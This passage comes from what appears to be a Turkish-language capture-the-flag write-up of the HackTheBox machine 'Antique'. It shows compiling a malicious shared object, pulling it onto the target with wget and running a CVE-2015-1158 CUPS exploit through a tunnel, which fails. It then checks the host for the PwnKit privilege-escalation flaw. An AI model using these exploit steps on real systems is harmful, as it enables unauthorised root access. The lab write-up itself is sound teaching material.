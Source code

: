 Bu çalışırsa, dosya sistemi root'unda bir dosya oluşturacaktır.

Onu derleyeceğim:


```
oxdf@hacky$ gcc -shared -o so.so -fPIC so.c 
```

Hostumda bir Python web sunucusu ve Antique'de wget kullanarak bunu Antique'ye yükleyin. Şimdi, exploit'i tünel üzerinden çalıştıracağım:


```
oxdf@hacky$ python2 cve-2015-1158.py -a 127.0.0.1 -b 9631 -c /tmp/so.so
...[snip]...
[*]     locate available printer
[-]     no printers
```

Mevcut printer olmadığı için başarısız oluyor (yukarıda admin web sitesinde belirttiğim bir şey).

### PwnKit

#### Find Vulnerable

[LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) gibi bir şey bu hostun savunmasız olduğunu belirleyecektir. [Datadog](https://www.datadoghq.com/blog/pwnkit-vulnerability-overview-and-remediation/)'un bu yazısı dpkg -s policykit-1 çalıştırılarak manuel olarak nasıl kontrol edileceğini göstermektedir:

```
lp@antique:/dev/shm$ dpkg -s policykit-1
Package: policykit-1
Status: install ok installed
Priority: optional
Section: admin
Installed-Size: 560
Maintainer: Ubuntu Developers <ubuntu-devel-discuss@lists.ubuntu.com>
Architecture: amd64
Multi-Arch: foreign
Version: 0.105-26ubuntu1.1
Depends: dbus, libpam-systemd, libc6 (>= 2.7), libexpat1 (>= 2.0.1), libglib2.0-0 (>= 2.37.3), libpam0g (>= 0.99.7.1), libpolkit-agent-1-0 (= 0.105-26ubuntu1.1), libpolkit-gobject-1-0 (= 0.105-26ubuntu1.1), libsystemd0 (>= 213)
Conffiles:
 /etc/pam.d/polkit-1 7c794427f656539b0d4659b030904fe0
 /etc/polkit-1/localauthority.conf.d/50-localauthority.conf 2adb9d174807b0a3521fabf03792fbc8
 /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf c4dbd2117c52f367f1e8b8c229686b10
Description: framework for managing administrative policies and privileges
 PolicyKit is an application-level toolkit for defining and handling the policy
 that allows unprivileged processes to speak to privileged processes.
 .
 It is a framework for centralizing the decision making process with respect to
 granting access to privileged operations for unprivileged (desktop)
 applications.
Homepage: https://www.freedesktop.org/wiki/Software/polkit/
Original-Maintainer: Utopia Maintenance Team <pkg-utopia-maintainers@lists.alioth.debian.org>
```
